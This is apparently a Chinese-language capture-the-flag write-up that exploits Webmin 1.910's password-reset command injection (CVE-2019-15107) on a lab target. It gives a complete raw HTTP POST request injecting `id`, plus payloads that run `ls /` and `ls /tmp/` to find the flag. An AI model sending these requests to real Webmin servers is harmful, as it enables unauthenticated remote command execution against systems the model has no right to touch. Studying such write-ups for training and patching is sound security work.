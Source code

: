 # webmin

## 1、访问靶场地址https://81.68.197.243:62201/session_login.cgi

![image-20220301164302790](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011643900.png)

## 2、百度搜索相关信息

可以看到是webmin的登录页面。我们在百度搜索关键词webmin 远程代码执行漏洞，可以看到编号为CVE-2019-15107

### 漏洞资料：

> #### Webmin 远程命令执行漏洞（CVE-2019-15107）
>
> Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。
>
> 参考链接：
>
> - https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
> - https://www.exploit-db.com/exploits/47230
> - https://blog.firosolutions.com/exploits/webmin/
>
> #### 环境搭建
>
> 执行如下命令，启动webmin 1.910：
>
> ```
> docker-compose up -d
> ```
>
> 执行完成后，访问`https://your-ip:10000`，忽略证书后即可看到webmin的登录页面。
>
> #### 漏洞复现
>
> 参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，触发命令注入漏洞。
>
> 发送如下数据包，即可执行命令`id`：
>
> ```
> POST /password_change.cgi HTTP/1.1
> Host: your-ip:10000
> Accept-Encoding: gzip, deflate
> Accept: */*
> Accept-Language: en
> User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
> Connection: close
> Cookie: redirect=1; testing=1; sid=x; sessiontest=1
> Referer: https://your-ip:10000/session_login.cgi
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 60
> 
> user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
> ```
>
> ![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011648841.png)
>
> 

## 3、CVE-2019-15107利用

登录任意账号密码后抓包，注意不要登录root用户

![image-20220301174832035](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011748123.png)

将请求包发送到repeater模块然后请求/password_change.cgi

post请求的数据改为

![image-20220301164528260](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011645373.png)

payload:

```
user=adad&pam=1&expired=2&old=ls /&new1=1111&new2=1111
```

### 4、查看flag

```
user=yeyu&pam=1&expired=2&old=ls /tmp/&new1=1111&new2=1111
```

![image-20220301164716310](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011647394.png)